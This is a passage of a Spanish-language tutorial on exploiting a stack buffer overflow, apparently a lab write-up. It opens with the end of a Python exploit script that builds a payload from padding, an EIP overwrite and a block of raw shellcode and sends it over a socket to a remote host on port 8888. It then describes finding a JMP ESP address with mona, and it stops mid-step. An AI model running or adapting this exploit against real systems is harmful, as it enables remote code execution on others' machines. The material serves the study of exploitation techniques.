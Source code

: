 ```python
        b"\xca\xb2\x16\x82\x61\x49\xf1\x6d\xdd\x51\x11\x06\x1c\x51\x10"
        b"\x6d\xa9\xb7\x78\x81\xfc\x60\x15\x38\xa5\xfa\x84\xc5\x73\x87"
        b"\x87\x4e\x70\x78\x49\xa7\xfd\x6a\x3e\x47\x48\xd0\xe9\x58\x66"
        b"\x7c\x75\xca\xed\x7c\xf0\xf7\xb9\x2b\x55\xc9\xb3\xb9\x4b\x70"
        b"\x6a\xdf\x91\xe4\x55\x5b\x4e\xd5\x58\x62\x03\x61\x7f\x74\xdd"
        b"\x6a\x3b\x20\xb1\x3c\x95\x9e\x77\x97\x57\x48\x2e\x44\x3e\x1c"
        b"\xb7\xa6\x81\x5a\xb8\xe2\x77\x82\x09\x5b\xce\xbd\xa6\x0b\xc6"
        b"\xc6\xda\xab\x29\x1d\x5f\xdb\x63\x3f\xf6\x74\x2a\xaa\x4a\x19"
        b"\xcd\x01\x88\x24\x4e\xa3\x71\xd3\x4e\xc6\x74\x9f\xc8\x3b\x05"
        b"\xb0\xbc\x3b\xba\xb1\x94")
    offset = 1052
    before_eip = b"A" * offset
    eip = b"B" * 4

    payload = before_eip + eip + shellcode

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((remoteAddress, 8888))
    s.send(payload)

if __name__ == "__main__":
    executeExploit()
```

#### Etapa 6: Asignar el opcode al EIP {-}

```{r, echo = FALSE, fig.cap="Buf opcode", out.width="90%"}
    knitr::include_graphics("images/Buff-jmpesp.png")
```

Como dicho precedamente, no podemos meter la direccion del **ESP** directamente en el **EIP** para ejecutar el Shell code.
Aqui lo que tenemos que hacer es encontrar una direccion donde se ejecute el commando **JMPESP** para redirigirnos al Shell code.

1. Busqueda de modulos con mona

    ```bash
    !mona modules
    ```

1. Buscamos una dll que tenga todas las protecciones a False

    ```

![Buff-jmes](/assets/images/Buff-jmpesp.png)

1. En internet buscamos el opcode [defuse.ca](https://defuse.ca/online-x86-assembler.htm)

    ```{r, echo = FALSE, fig.cap="Buf no protected modules", out.width="90%"}
    knitr::include_graphics("images/Buff-protection_false.png")
    ```

1. Buscar el opcode (en este caso
